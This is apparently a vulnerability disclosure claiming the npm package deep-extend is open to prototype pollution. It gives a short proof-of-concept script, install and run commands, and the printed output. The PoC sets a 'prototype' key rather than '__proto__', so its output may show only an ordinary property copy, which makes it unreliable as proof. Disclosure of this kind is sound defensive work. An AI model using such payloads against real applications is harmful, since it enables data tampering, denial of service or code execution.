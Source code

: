# Description

`deep-extend` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var extnd = require('deep-extend');
var malicious_payload = '{"prototype": {"polluted": "Yes! Polluted"}}';

var a = {};
console.log("Before : " + a.oops);
object=extnd({}, JSON.parse(malicious_payload));
console.log("After : " + object.prototype.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i deep-extend # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Polluted
```
